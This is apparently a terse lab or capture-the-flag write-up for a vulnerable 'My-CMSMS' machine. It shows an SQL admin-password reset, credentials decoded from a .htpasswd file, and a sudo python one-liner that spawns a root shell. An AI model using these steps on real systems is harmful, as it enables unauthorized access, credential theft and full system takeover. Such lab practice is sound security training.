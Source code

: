 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# My-CMSMS
# 25/2/2023

----------------------------------------------------
# dir
----------------------------------------------------
http://192.168.141.74/admin/login.php
http://192.168.141.74/phpmyadmin
----------------------------------------------------
# my sql
----------------------------------------------------
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'hackNos'))) where username = 'admin'; 
//Pass hackNos

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 8.0.19

----------------------------------------------------
# priv esc
----------------------------------------------------
cat .htpasswd
TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=

┌──(kali㉿kali)-[~]
└─$ echo "TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=" | base64 -d
MFZG233VOI5FG2DJMVWGIQBRGIZQ====                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ echo "MFZG233VOI5FG2DJMVWGIQBRGIZQ====" | base32 -d            
armour:Shield@123    

armour@mycmsms:~$ sudo -l
    (root) NOPASSWD: /usr/bin/python

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'